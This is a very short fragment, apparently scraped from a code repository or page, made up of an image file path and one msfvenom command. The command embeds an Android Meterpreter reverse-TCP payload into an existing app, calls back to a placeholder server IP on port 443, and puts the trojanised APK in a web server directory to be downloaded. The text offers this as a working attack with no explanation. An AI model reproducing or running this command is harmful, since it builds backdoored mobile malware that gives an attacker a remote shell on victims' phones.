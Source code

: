 - msfvenom -x awesome.apk -p android/meterpreter/reverse_tcp LHOST=<Server_IP> LPORT=443 -o /var/www/html/awesome.apk
